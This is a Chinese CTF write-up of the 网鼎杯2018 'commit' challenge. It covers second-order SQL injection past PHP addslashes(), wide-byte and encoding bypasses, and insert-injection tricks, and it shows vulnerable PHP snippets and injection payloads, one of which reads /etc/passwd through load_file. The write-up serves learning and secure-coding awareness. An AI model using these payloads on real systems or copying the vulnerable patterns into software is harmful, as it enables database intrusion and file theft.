








网鼎杯2018-commit题解&二次注入&addslashes安全问题&insert注入
0x00前言
这道题目本身虽然只是考察二次注入,但是寻找问题解决方法的过程中遇到了一些不相关知识点,也来记录下
0x01题解
发现提交评论需要登录,然后login.php 爆破得到zhangwei/zhangwei666
GitTools
在P牛小密圈发现了一个比较好用的工具,可以提取每次commit的信息,这样比赛的时候也不必担心会在Git上面做文章了. 项目地址 https://github.com/internetwache/GitTools
中间还找到了一篇相关文章 https://www.leavesongs.com/PENETRATION/XDCTF-2015-WEB2-WRITEUP.html
具体使用:
先用Dumper下载git文件

然后用Extractor提取commit记录和文件

二次注入
得到的代码(省略了一些不相关的代码)
1 |
|
可以看到addslashes()函数把传入的参数过滤了.尝试宽字节注入,未果. 在尝试%df吸收\的时候,发现只是没有%df回显而已,并不代表可以宽字节注入 .当然,这道题如果设置set character_set_client = gbk是可以利用宽字节进行注入的.
实际本题考察的点为二次注入,引用了p牛小密圈的一张图,来说明Mysql对\'的处理

引号 ' 在addslashes()作用下,变成 \' , 但是在插入数据库的时候又会变成 ' , 在下面的代码中,没有对从数据库中读出来的$category进行过滤就将它插入到了新的SQL语句中,从而造成二次注入
1 | $category = mysql_fetch_array($result)['category']; |
payload:
1 | 发帖: |
最后的一些效果

然后构造读取文件的payload,本题利用sql读取文件又是另一个点, 这个直接参考peri0d师傅的wp https://www.cnblogs.com/peri0d/p/14077324.html. (这个读取文件,又要在别的师傅博客找找思路,以前并没有见过这种思路
1 | ',content=(select load_file("/etc/passwd")),/* |
也没有尝试直接执行命令,题目应该是禁止的.
0x02 二次注入
做了这么多sql注入,看了这么多文章.遇到这个还是没想到. 这次来总结一些特征.
借用了Spoock师傅博客一张图: https://blog.spoock.com/2017/03/27/sql-mutil-injecton-and-block/

最主要的是Mysql对\'的处理,Mysql把\'当作一个字符,而不是两个.直接截取P牛小密圈的一段话

重点是应该警惕addslashes(),并不是使用了addslashes()就是安全的.二次注入就暴露了一些addslashes()的安全问题,只不过这点不存在于它本身,而是开发者对addslashes()的信任和不了解
0x03 addslashes
此题之后我对addslashes的看法完全改变了,它并没有我想象的这么安全, 来看一看addslashes会有那些安全问题
bypass addslashes
做题的时候找到了这篇文章 代码审计之绕过addslashes总结,
总结下其中的bypass方法:
宽字节注入
一个是熟知的``%df%5c
=>運 `utf-8 => gbk一个是逆向的gbk=>utf-8
錦(0xe55c)\'=>%e5%5c%5c%27=>%5e\\'关键代码:
1
2
3mysql_query("SET NAMES 'gbk'");
$username=iconv('utf-8','gbk',$username);
$username=iconv('gbk','utf-8',$username);编码绕过
下面这些比较明显
1
2
3
4
5
6
7
8
9# urldecode
$username=$_REQUEST['username'];
$username=addslashes($username);[/size][/color]
$username=urldecode($username);
# base64_decode
$username=$_REQUEST['username'];
$username=addslashes($username);
$username=base64_decode($username);json编码
1
2
3
4
5
6
7
8
9
10
11
12
$str="admin\'";
$str=addslashes($str);
echo json_encode($str);
# admin\\'
$username=$_REQUEST['username'];
$username=addslashes($username);
$username=json_encode($username);
$password=md5($_REQUEST['password']);
$sql="select count(*) as num from admin where name='".$username."' and pass='".$password."'";
$query=mysql_query($sql);stripslashes删除反斜杠：1
2
3
4
echo stripslashes("Who\'s Bill Gates?");
# "Who's Bill Gates?字符替换导致的绕过addslashes
文中给的示例, 这个还比较直接
1
2
3
4
5$username=addslashes($username);
$username=str_replace(array("\\","/"," "),array("","",""),$username);
$password=md5($_REQUEST['password']);
$sql="select count(*) as num from admin where name='".$username."' and pass='".$password."'";
$query=mysql_query($sql);还有 CISCN2019 总决赛 Day2 Web1 的Easyweb
1
2
3
4
5
6
7
8$id=addslashes($id);
$path=addslashes($path);
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);
$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);传入
?id=\0&path=or id=1%23=> 最后的sql语句select * from images where id='\' or path='or id=1#'还有
sprintf第五届上海市大学生网络安全大赛TryLogin https://blog.csdn.net/weixin_45551083/article/details/109822811
构造
password=%1$'xxxx来逃逸引号

原理在 https://blog.csdn.net/weixin_41185953/article/details/80485075.其实还是没搞太清楚.
二次注入
0x04 insert注入
这道题的insert注入似乎和以前遇到的都不太一样.来理一下思路
- bool类型的注入点 可以盲注
1 | INSERT INTO user(sex, name) VALUES (0, 'abc'); |
- 数字型: 把结果转化为10进制数字
1 | INSERT INTO user(name, num) VALUES ('abc', 123); |
- 字符类型,插入多条值
1 | insert into user (name,pwd) values ('xxxx','xxxx'),((select user()),1)# ','a'); |
而本道题是
1 | insert into comment |
可以利用本道题的trick
1 | insert into comment |
0x05 最后
中途还看到了这篇文章 sql二次注入和截断联合使用 ,在 sql-mode 为非严格模式的时候,可以产生一种截断注入,就以后再研究了
紧接着又做到了一个二次注入的题目: [CISCN2019 华北赛区 Day1 Web5]CyberPunk题解